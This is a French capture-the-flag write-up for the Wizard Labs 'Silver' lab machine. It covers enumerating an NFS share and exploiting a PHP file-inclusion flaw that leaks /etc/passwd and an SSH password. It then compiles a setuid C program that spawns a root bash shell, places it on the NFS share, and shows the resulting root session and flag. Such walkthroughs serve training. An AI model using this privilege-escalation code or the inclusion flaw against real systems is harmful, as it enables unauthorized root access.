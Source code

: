 # Solution du CTF Silver de Wizard Labs

Bronze
------

*Silver* est un CTF de Wizard Labs annoncé avec une difficulté de 4/10.  

Premier élément qui fait tilter tout habitué des CTFs : la présence d'un partage NFS sur la machine :  

```plain
$ showmount -a 10.1.1.36
All mount points on 10.1.1.36:
10.28.12.6:/home/silver/nfs
```

On monte ce partage avec la commande *sudo mount 10.1.1.36:/home/silver/nfs /mnt/* mais il est vide.  

On se doute toutefois qu'on aura à y placer un binaire setuid plus tard :p   

Sur le site web de la box, [Wapiti](http://wapiti.sourceforge.net/) trouve différentes failles dans le paramètre *language* d'une même page (c'est la même faille mais découverte par trois biais différents) :  

* Divulgation de fichier si la valeur est */etc/passwd*
* Exécution de commande via un wrapper PHP (voir capture d'écran plus loin)
* Timeout si la valeur est *http://www.google.com/*

![Wizard Labs CTF Silver include() vulnerability Wapiti report](https://github.com/devl00p/blog/raw/master/images/wizard-labs/silver_rce.png)

Autant dire qu'on a affaire à une faille d'inclusion PHP et que l'inclusion distante est activée.  

L'exploitation de cette vulnérabilité peut avoir bien des scénarios différents mais en fait si on lit */etc/passwd* on remarque une ligne explicite à la fin du fichier :  

> ssh password for silver: i'msilver

Gold
----

On obtient donc l'accès sur cette machine 32bits. On écrit le code suivant que l'on compilera avec *-m32* :  

```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        system("/bin/bash");
        return 0;
}
```

On le copie ensuite sur le partage NFS avec les droits root + setuid et c'est finit :  

```plain
silver@silver:~/nfs$ ls -l
total 652
-rwsr-xr-x 1 root root 664956 Feb 23 06:37 devloop
silver@silver:~/nfs$ ./devloop
root@silver:~/nfs# id
uid=0(root) gid=1000(silver) groups=1000(silver),4(adm),24(cdrom),30(dip),46(plugdev),109(lpadmin),125(sambashare)
root@silver:~/nfs# cd /root/
root@silver:/root# cat root.txt
3f3d93725cebd44cf7bb1fb327e8a0b1
```


*Published November 17 2020 at 14 08*